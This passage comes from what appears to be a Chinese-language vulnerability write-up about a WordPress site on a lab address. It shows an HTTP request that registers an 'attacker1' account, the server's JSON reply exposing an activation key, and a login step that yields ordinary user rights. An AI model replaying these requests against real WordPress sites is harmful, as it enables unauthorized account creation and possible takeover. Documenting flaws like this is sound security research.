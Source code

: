         Content-Length: 112
        {"user_login": "attcker1", "user_email": "attacker1@163.com", "user_name": "attacker1", "password": "attacker1"}
        ```
    - **得到回显:**
        ```http
        HTTP/1.1 200 OK
        Date: Thu, 22 May 2025 03:49:29 GMT
        Server: Apache/2.4.18 (Ubuntu)
        X-Robots-Tag: noindex
        Link: <http://192.168.20.12:10459/wp-json/>; rel="https://api.w.org/"
        X-Content-Type-Options: nosniff
        Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
        Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
        Content-Length: 280
        Content-Type: application/json; charset=UTF-8
        [{"id":3,"user_login":"attcker1","registered":"2025-05-22T03:48:36","user_name":"attacker1","activation_key":"aoM0svmO72kVVPbNxYadAKifjIUuYqj8","user_email":"attacker1@163.com","date_sent":"2025-05-22T03:48:36","count_sent":1,"meta":{"field_1":"attacker1","profile_field_ids":1}}]
        ```

4. **登录验证**
   - 使用注册的账号 `attacker1` 和密码 `attacker1` 登录。
   
   ![1748229151058](image/readme/1748229151058.png)
   - 登录后，用户将获得普通用户权限，但尚未获得管理员权限。